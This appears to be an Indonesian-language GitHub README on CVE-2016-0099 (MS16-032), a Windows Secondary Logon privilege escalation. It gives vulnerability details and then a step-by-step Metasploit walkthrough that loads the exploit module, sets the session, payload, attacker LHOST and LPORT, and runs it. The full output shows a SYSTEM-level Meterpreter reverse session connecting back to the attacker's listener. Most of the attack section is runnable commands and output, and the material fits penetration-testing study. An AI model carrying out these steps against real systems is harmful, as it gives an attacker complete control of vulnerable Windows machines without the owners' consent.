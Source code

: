 # CVE-2016-0099

## A. CVE-2016-0099?

[CVE-2016-0099](https://nvd.nist.gov/vuln/detail/cve-2016-0099) adalah kerentanan local privilege escalation pada sistem operasi Windows yang ditemukan pada layanan Secondary Logon Service (`seclogon.dll`). Kerentanan ini memungkinkan penyerang dengan hak akses user biasa untuk menaikkan hak akses menjadi `SYSTEM`, yaitu level tertinggi di sistem Windows.

Eksploitasi ini terjadi karena adanya kesalahan pengelolaan handle token proses yang dilakukan oleh `seclogon.dll`, sehingga memungkinkan penyerang untuk menyisipkan proses baru dengan hak akses `SYSTEM` menggunakan teknik `CreateProcessWithLogonW()`.

## B. Detail Teknis
- CVE ID: `CVE-2016-0099`  
- Tanggal Rilis: `8 Maret 2016`  
- Tipe: Local Privilege Escalation (LPE)  
- Fungsi Rentan: `CreateProcessWithLogonW`  
- Komponen: `seclogon.dll`  
- Platform: `Windows` (seluruh versi rentan yang terpengaruh)
- Arsitektur: `x86` dan `x64`  
- Skor CVSS: `7.8` (Tinggi)
  
## C. Sistem yang Rentan

Untuk melihat semua sistem yang rentan terhadap `CVE-2016-0099`, anda bisa melihatnya di dokumentasi resmi Microsoft: [https://learn.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-032#affected-software-and-vulnerability-severity-ratings](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-032#affected-software-and-vulnerability-severity-ratings)

## D. Langkah Penggunaan di Metasploit

1. Dapatkan Akses Awal (User Biasa):

   ```
   msf6 > sessions          # Lihat sesi yang ada
   msf6 > sessions -i 1     # Masuk ke sesi dengan ID 1
   msf6 > getuid            # Melihat user saat ini
   msf6 > sysinfo           # Informasi sistem target
   ```

2. Keluar dari Sesi Meterpreter:
   
   ```
   msf6 > background
   ```

3. Gunakan Modul Exploit MS16-032:

   ```
   msf6 > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
   ```

4. Setting Parameter Penting:

   ```
   msf6 > set SESSION <ID>
   msf6 > set PAYLOAD <PAYLOAD>
   msf6 > set LHOST <IP_ATTACKER>
   msf6 > set LPORT <PORT_LISTENER>
   msf6 > set TARGET <ID>
   msf6 > set VERBOSE true
   ```

   > Untuk ID target bisa dilihat dengan:

   ```
   msf6 > show targets
   ```

5. Jalankan Exploit:

   ```
   msf6 > exploit
   ```

   Jika hasil output-nya seperti ini:

   ```
   [*] PS1 loaded from /usr/share/metasploit-framework/data/exploits/CVE-2016-0099/cve_2016_0099.ps1
   [*] Writing payload file, C:\Users\ADMIN\AppData\Local\Temp\zdwvVpZzyRCY.ps1...
   [*] Compressing script contents...
   [+] Compressed size: 3723
   [*] Executing exploit script...
	 __ __ ___ ___   ___     ___ ___ ___ 
	|  V  |  _|_  | |  _|___|   |_  |_  |
	|     |_  |_| |_| . |___| | |_  |  _|
	|_|_|_|___|_____|___|   |___|___|___|
	                                    
	               [by b33f -> @FuzzySec]

   [?] Operating system core count: 2
   [>] Duplicating CreateProcessWithLogonW handle
   [?] Done, using thread handle: 1112

   [*] Sniffing out privileged impersonation token..

   [?] Thread belongs to: svchost
   [+] Thread suspended
   [>] Wiping current impersonation token
   [>] Building SYSTEM impersonation token
   [ref] cannot be applied to a variable that does not exist.
   At line:200 char:59
   +         $dhA = [Ntdll]::NtImpersonateThread($qdY, $qdY, [ref]$qi <<<< )
       + CategoryInfo          : InvalidOperation: (qi:Token) [], RuntimeExceptio 
      n
       + FullyQualifiedErrorId : NonExistingVariableReference
 
   [!] NtImpersonateThread failed, exiting..
   [+] Thread resumed!

   [*] Sniffing out SYSTEM shell..

   [>] Duplicating SYSTEM token
   Cannot convert argument "0", with value: "", for "DuplicateToken" to type "Syst
   em.IntPtr": "Cannot convert null to type "System.IntPtr"."
   At line:259 char:35
   +     $dhA = [Advapi32]::DuplicateToken <<<< ($nxfWT, 2, [ref]$isTl)
       + CategoryInfo          : NotSpecified: (:) [], MethodException
       + FullyQualifiedErrorId : MethodArgumentConversionInvalidCastArgument
 
   [>] Starting token race
   [>] Starting process race
   [!] Holy handle leak Batman, we have a SYSTEM shell!!

   EpGsSpsRhiU1UMP9YNyfQwBdFAPYrXHh
   [+] Executed on target machine.
   [*] Sending stage (203846 bytes) to 192.168.1.50
   [*] Meterpreter session 8 opened (192.168.1.42:4444 -> 192.168.1.50:49161) at 2025-05-14 03:42:55 +0700
   [+] Deleted C:\Users\ADMIN\AppData\Local\Temp\zdwvVpZzyRCY.ps1

   meterpreter > 
   ```

   Itu artinya kita sudah mendapatkan akses tertinggi dari sistem. Untuk mengeceknya, ketikkan perintah berikut:

   ```
   meterpreter > getuid 
   ```

   Hasil output-nya seperti ini:

   ```
   meterpreter > getuid 
   Server username: NT AUTHORITY\SYSTEM
   meterpreter > 
   ```

   > Keterangan: `NT AUTHORITY\SYSTEM` adalah akun tertinggi di sistem Windows itu setara dengan `root` pada sistem Linux.
